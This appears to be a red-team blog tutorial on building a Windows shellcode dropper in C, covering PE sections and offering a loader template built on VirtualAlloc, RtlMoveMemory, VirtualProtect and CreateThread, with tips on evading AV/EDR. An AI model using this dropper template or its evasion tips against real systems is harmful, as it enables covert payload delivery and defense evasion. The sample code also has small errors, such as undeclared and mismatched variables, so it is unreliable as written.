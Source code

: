 ```yaml
---
title: Creating a Dropper in C
date: 2023-02-19 12:00:00 -500
categories: [blog]
tags: [code_execution]     #   TAG should always be lowercase

---
```


In this post we will take a very high level approach to creating a dropper for Windows. The structure of the dropper can take the form of 3 templates, each using a different structure of the portable executable to execute your shellcode. A dropper is just an application/binary/PE that delivers and executes your payload/Shellcode on the target system.

# What is a Portable Executable (PE)

a PE is a Way of structuring a file on disk so that the Windows loader recognizes the file as executable code and loads it into memory. If you want to have a detailed look at the structure of a PE, [here](https://github.com/corkami/pics/blob/master/binary/pe101/pe101.png) you go. The two main structures we will be looking at will be Headers and Sections.

Headers is just metadata about the PE. The below image shows the information contained in the headers for notepad.exe.

![headers](/assets/img/Headers.jpg)

Sections actually contain the executable code for a PE. The below image shows the sections contained in notepad.exe. These sections will become important later on when choosing where to store your payload.

![sections](/assets/img/PEBear.png)

# What is the difference between an EXE and a DLL

Two of the main PEs offensive operators can/will make use of is .exe(s) and .dll(s). The main difference between the two is that an EXE is a self-contained structure and completely independant in memory. The EXE will create a new process in windows and can interact with other processes, load different libraries and use all the different Win32/NT APIs. a DLL on the other hand is just a library that is called by an already in-memory process and usually needs a function inside the library that is called by the process.

# Sections for use in offensive tradecraft

The 3 sections that we can make use of for our payload/shellcode are the .data (Data), .text (Text) and .rsrc (Resources) sections. Each section that you choose for your payload will require a different layout in our C program. We will discuss the differences, but let's create the template for our first dropper program and then look at the distinguising features of our program and it's corresponding section. For any shellcode execution, there needs to be 4 essential functions within your program (There are different ways of doing this within the offensive community, but that is a post/posts for another day). 

Firstly, we want to reserve space in memory for our code and that can be accomplished by using the ```VirtualAlloc``` API. We allocate the memory space and also tell Windows what protections to apply (Read and Write) to the memory space ```flProtect``` (very important for detection considerations).

```c#
VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect)
```
Secondly, we want to copy our payload (assigned to a variable in our template) into the newly reserved memory space with the ```RtlMoveMemory``` API.

```c#
RtlMoveMemory(VOID *Destination, VOID *Source, SIZE_T Length);
```

Thirdly, we change the protection on the assigned memory region to make it executable (Read, Write, Execute) by using the ```VirtualProtect``` API. Changing the memory protection after assignment is slightly less suspicious for AV/EDR tools.

```c#
VirtualProtect(LPVOID lpAddress, SIZE_T dwSize, DWORD flNewProtect, PDWORD lpflOldProtect);
```

Lastly we make use of the ```CreateThread``` API to execute our code in a new thread within the process.

Our template for our dropper should now look like this:

```c#
unsigned char payload[] = {SHELLCODE};
unsigned int payload_length = 4;
```

```c#
int main(void) {

// Reserve space in memory for our payload
me_reserve = VirtualAlloc(0, payload_length, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

// Move the payload to the newly reserved space.
RtlMoveMemory(me_reserve, payload, payload_length);
	
// Change the memory protection to add execute permissions
mem_protect = VirtualProtect(me_reserve, payload_length, PAGE_EXECUTE_READ, &oldprotect);

// run the payload
if ( mem_protect != 0 ) {
	exec = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) me_reserve, 0, 0, 0);
	WaitForSingleObject(th, -1);
}

return 0;
}

```

The differences in the code comes in w.r.t to which section you would like to use for your payload.

If you want to use the ```.text``` section, you need to assign your payload as a local variable. So within the main function of the application.
If you want to use the ```.data``` section, you need to assign your payload as a global variable. So outside of the main function of the application.

The use of the ```.rsrc``` section is slightly more complex.

